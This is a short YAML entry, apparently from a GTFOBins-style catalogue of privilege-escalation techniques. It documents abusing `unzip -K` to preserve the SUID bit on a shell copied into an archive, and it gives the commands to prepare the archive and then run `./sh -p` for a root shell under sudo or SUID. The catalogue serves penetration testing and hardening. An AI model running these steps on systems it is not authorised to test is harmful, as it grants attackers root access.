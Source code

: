 ```yaml
---
description: |
  Certain `unzip` versions allows to preserve the SUID bit. Prepare an archive beforehand with the following commands as root:

  ```
  cp /bin/sh .
  chmod +s sh
  zip shell.zip sh
  ```

  Extract it on the target, then run the SUID shell as usual (omitting the `-p` where appropriate).
functions:
  sudo:  
    code: |
      sudo unzip -K shell.zip
      ./sh -p
  suid:
    code: |
      ./unzip -K shell.zip
      ./sh -p
---
```

